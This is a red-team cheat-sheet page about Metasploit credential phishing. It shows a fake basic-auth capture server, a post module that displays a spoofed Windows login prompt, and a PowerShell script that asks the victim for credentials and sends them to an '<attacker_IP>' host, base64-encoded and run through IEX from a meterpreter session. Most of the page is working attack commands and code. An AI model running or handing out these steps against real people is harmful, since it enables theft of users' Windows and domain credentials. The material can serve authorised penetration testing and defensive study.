 # Metasploit

Search Tag(s): #privilege-escalation #windows

## 01 - Usage

### 1.1 - Auxiliary Module

MSF HTTP Client Basic Authentication Credential Collector Auxiliary Module

```
msf > use auxiliary/server/capture/http_basic

msf auxiliary(server/capture/http_basic) > options

Module options (auxiliary/server/capture/http_basic):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   REALM        Secure Site      yes       The authentication realm you'd like to present.
   RedirectURL                   no        The page to redirect users to after they enter basic auth creds
   SRVHOST      0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT      80               yes       The local port to listen on.
   SSL          false            no        Negotiate SSL for incoming connections
   SSLCert                       no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                       no        The URI to use for this exploit (default is random)


Auxiliary action:

   Name     Description
   ----     -----------
   Capture  Run capture web server


msf auxiliary(server/capture/http_basic) > set uripath [/uri_path]

msf auxiliary(server/capture/http_basic) > set srvhost <IP>

msf auxiliary(server/capture/http_basic) > set srvport <PORT>

msf auxiliary(server/capture/http_basic) > set ssl <true | false>

msf auxiliary(server/capture/http_basic) > set sslcert /path/to/cert.pem

msf auxiliary(server/capture/http_basic) > set realm <realm_name>

msf auxiliary(server/capture/http_basic) > set redirectURL <url>

msf auxiliary(server/capture/http_basic) > run
```

### 1.2 - Post

```
msf > use post/windows/gather/phish_windows_credentials

msf post(windows/gather/phish_windows_credentials) > options

Module options (post/windows/gather/phish_windows_credentials):

   Name         Current Setting                                                                Required  Description
   ----         ---------------                                                                --------  -----------
   DESCRIPTION  {PROCESS_NAME} needs your permissions to start. Please enter user credentials  yes       Message shown in the loginprompt
   PROCESS                                                                                     no        Prompt if a specific process is started by the target. (e.g. calc.exe or specify * for all processes)
   SESSION                                                                                     yes       The session to run this module on.

msf post(windows/gather/phish_windows_credentials) > set description <description>

msf post(windows/gather/phish_windows_credentials) > set process <program_name.exe>

msf post(windows/gather/phish_windows_credentials) > set session <session_ID>

msf post(windows/gather/phish_windows_credentials) > run
```

## 02 - Use Case

### 2.1 - Capture credentials with the webserver

- Run the auxiliary module to setup http webserver

```
msf > use auxiliary/server/capture/http_basic

msf auxiliary(server/capture/http_basic) > set uripath /

msf auxiliary(server/capture/http_basic) > set srvhost 0.0.0.0

msf auxiliary(server/capture/http_basic) > set srvport 443

msf auxiliary(server/capture/http_basic) > set ssl true

msf auxiliary(server/capture/http_basic) > run
```

Using the powershell script to execute it the victim

```powershell
$ cat phish.txt
$cred = $host.ui.promptforcredential('Failed Authentication','',[System.Environment]::UserDomainName + "\" + [System.Environment]::UserName,[System.Environment]::UserDomainName);[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true};
$wc = New-Object Net.WebClient;
$wc.Headers.Add("User-Agent","<user_agent>");
$wc.Proxy = [System.Net.WebRequest]::DefaultWebProxy;
$wc.Proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials;
$wc.credentials = new-object system.net.networkcredential($cred.username, $cred.getnetworkcredential().password, '');
$result = $wc.downloadstring('https://<attacker_IP>/');
```

Encode it into base64

```
$ iconv -t UTF-16LE phish.txt | basenc -w 0 --base64
```

Then copy the encoded text file in the powershell script.

```powershell
$ cat encoded.ps1
IEX ([System.Text.Encoding]::Unicode.GetString(([convert]::FromBase64String('<base64_encoded>'))))
```

Then execute the powershell script with a post module.

```
meterpreter > run post/windows/manage/exec_powershell script=encoded.ps1
```

### 2.2 - Post Module

```
msf > use post/windows/gather/phish_windows_credentials

msf post(windows/gather/phish_windows_credentials) > set process *

msf post(windows/gather/phish_windows_credentials) > set session <session_ID>

msf post(windows/gather/phish_windows_credentials) > run
```

---
## References

### Backlinks

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/D - Webapp Pentesting/0x03 - Bypass Webapp Security/Web Application Firewall (WAF)/Helpers/User Agents]]

### Source Repositories

- [rapid7: Invoke-LoginPrompt](https://github.com/rapid7/metasploit-framework/blob/master/data/post/powershell/Invoke-LoginPrompt.ps1)

### Mubix

- [mubix: Powershell Popups + Capture](https://room362.com/posts/2015/powershell-popups-and-capture/)

### Rapid7

- [Rapid7: Metasploit Framework - Phishing Windows Credentials](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/post/windows/gather/phish_windows_credentials.md)

### enigma0x3

- [enigma0x3: Phishing for Credentials If you want it, just ask!](https://enigma0x3.net/2015/01/21/phishing-for-credentials-if-you-want-it-just-ask/)

### Assume Breach

- [Assume Breach: Internal Windows Phishing With Pickl3 And InsideMan](https://assume-breach.medium.com/home-grown-red-team-internal-windows-phishing-with-pickl3-and-insideman-2cd2e92f7d3e)